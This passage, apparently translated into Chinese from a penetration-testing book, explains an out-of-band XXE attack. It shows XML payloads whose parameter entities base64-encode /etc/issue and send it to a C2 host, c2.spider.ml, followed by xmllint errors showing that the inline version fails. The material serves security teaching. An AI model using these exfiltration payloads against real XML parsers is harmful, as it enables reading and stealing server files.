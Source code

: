 我们知道可以使用流过滤器将文件内容进行 Base64 编码。现在让我们将这两者结合起来，尝试将数据发送到 C2 服务器，而不是 Web 浏览器。

我们需要在 XML 有效载荷中定义的实体大概是这样的：

```
<!ENTITY % data SYSTEM "**php://filter/convert.base64-encode/resource=file:///etc/issue**">
<!ENTITY % conn "<!ENTITY exfil SYSTEM '**http://c2.spider.ml/exfil?%data;**'>">
```

细心的读者会注意到实体名称前面出现了新的百分号字符。这表示这是一个参数实体，而非我们之前使用的通用实体。通用实体可以在根元素树中的某个位置引用，而参数实体可以在 DTD 或文档的头部引用：

+   参数实体以百分号字符（`%`）为前缀

+   通用实体以与号字符（`&`）为前缀

下一步是尝试将这两个实体放入我们之前的有效载荷中：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe [
  <!ELEMENT xxe ANY >
  <!ENTITY % data SYSTEM "**php://filter/convert.base64-encode/resource=file:///etc/issue**">
  <!ENTITY % conn "<!ENTITY exfil SYSTEM '**http://c2.spider.ml/exfil?%data;**'>">
  **%conn;**
]>
<xxe>&exfil;</xxe>
```

如你所见，我们在`DOCTYPE`中定义了`%data`和`%conn`参数实体。`%conn`实体还定义了一个通用实体`&exfil`，它将把 Base64 编码的`%data`实体附加到我们的 C2 URL 上进行外泄。

紧接在参数实体定义后，我们评估`%conn`，它将启动数据收集和编码过程。这也将定义`&exfil`，稍后在文档正文中被调用。

简单来说，易受攻击的 XML 解析器将执行以下操作：

+   尝试扩展`%data`，并通过此操作获取`/etc/issue`文件的内容

+   使用`php://filter`方案对`/etc/issue`的内容进行编码

+   尝试扩展`%conn`，并通过此操作连接到我们的 C2 服务器`c2.spider.ml`

+   通过 URL 传递`%data`的 Base64 内容

不幸的是，由于 XML 标准的限制，载荷不能按原样工作。对参数实体（如`%data`和`%conn`）的引用在标记声明中是不允许的。我们必须使用外部 DTD 来定义这些实体。

我们可以使用`xmllint` Linux 命令在本地检查我们的载荷是否有错误，如下所示：

```
root@kali:/tools# xmllint payload.xml
payload.xml:5: parser error : **PEReferences forbidden in internal subset**
  <!ENTITY % conn "<!ENTITY exfil SYSTEM 'http://c2.spider.ml/exfil?%data;'>">
                                                                 ^
payload.xml:5: parser warning : not validating will not read content for PE entity data
  <!ENTITY % conn "<!ENTITY exfil SYSTEM 'http://c2.spider.ml/exfil?%data;'>">
                                                                 ^
payload.xml:6: parser error : PEReference: %conn; not found
    %conn;
          ^
payload.xml:8: parser error : Entity 'exfil' not defined
<xxe>&exfil;</xxe>
            ^
```
